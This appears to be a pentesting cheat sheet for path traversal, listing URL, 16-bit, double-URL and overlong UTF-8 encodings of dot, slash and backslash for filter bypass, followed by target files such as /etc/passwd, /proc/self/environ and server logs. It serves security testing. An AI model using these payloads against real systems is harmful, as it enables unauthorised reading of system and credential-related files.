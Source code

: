 ## URL

. = %2e

/ = %2f

\ = %5c

## 16-bit:

. = %u002e

/ = %u2215

\ = %u2216

## Double URL:

. = %252e

/ = %252f

\ = %255c

. = %25252E

/ = %25252F

## UTF-8:

. = %c0%2e, %e0%40%ae, %c0ae

/ = %c0%af, %e0%80%af, %c0%2f

\ = %c0%5c, %c0%80%5c

## Check

/etc/passwd

/proc/self/environ

/var/log/auth.log

/var/log/apache2/access.log
